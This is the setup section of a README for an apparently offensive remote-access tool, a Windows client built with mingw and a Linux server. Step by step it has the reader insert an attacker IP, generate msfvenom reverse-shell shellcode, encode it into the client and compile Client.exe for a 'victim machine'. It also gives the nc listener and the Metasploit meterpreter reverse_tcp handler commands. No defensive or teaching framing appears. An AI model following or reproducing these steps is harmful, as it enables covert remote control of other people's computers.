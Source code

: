 # Setup

The setup is pretty much the same as the x64 version. However, the msfvenom commands to generate the shellcodes are slightly different. They can be found inside of the Client.c file, and the compilation command is also different.

1. Install mingw-w64
```bash
sudo apt install mingw-w64
```

2. Open Client.c and replace the contents of the variable ServerIP at line 30 with the IP address of the attacker machine

3. From the terminal, generate the shellcode for ShellcodeX64 using the first commented msfvenom command (Line 49) (Replace the LHOST variable with the IP address of the attacker machine)

4. Now Generate the respective shellcodes for ShellcodeSpawnNetcat and FallBackShell using the last 2 commented msfvenom commands (Lines 51 and 53) (Replace the LHOST variables like before)

5. Copy the output shellcodes of msfvenom for ShellcodeSpawnNetcat and FallBackShell, and paste them inside of ESH.c for the respective variables

6. Compile and execute ESH.c
```bash
gcc ESH.c -o esh && ./esh
```

7. Grab the output of esh, and replace ShellcodeSpawnNetcat and FallBackShell inside of the Client.c file and save.

8. Open Server.c and replace the contents at line 14 with the IP address of the attacker machine and save.

9. You should now be good to go, compile everything by typing:
```bash
i686-w64-mingw32-gcc -o Client.exe Client.c -lwsock32 -lwininet -lgdi32 -lntdll && gcc Server.c -o Server -lpthread && echo "Compilation Successful"
```

10. If everything went correctly, the string "Compilation Successful" should popup on your terminal. If not, there was an error when trying to compile. Make sure you did everything correctly.

11. Setting the server: Before executing the Client on the victim machine, you must make sure to open another tab in your terminal (On the attacker machine), and execute the following command:
```bash
nc -lvnp 38524
```

If you don't do this, when executing Client.exe, no reverse shell will be received due to the fact that you weren't listening on port 38524, and Client.exe will crash (The same thing will happen if you decide to send 'startcat' before listening for a connection on port 443)

12. Now you should start the main server by typing:
```bash
./Server start
```

13. msfconsole commands for Inject86:
```bash
use exploit/multi/handler
set LHOST SERVER-IP
set LPORT 4444
set payload windows/meterpreter/reverse_tcp
run
```

Everything should now be ready to go. Enjoy :)
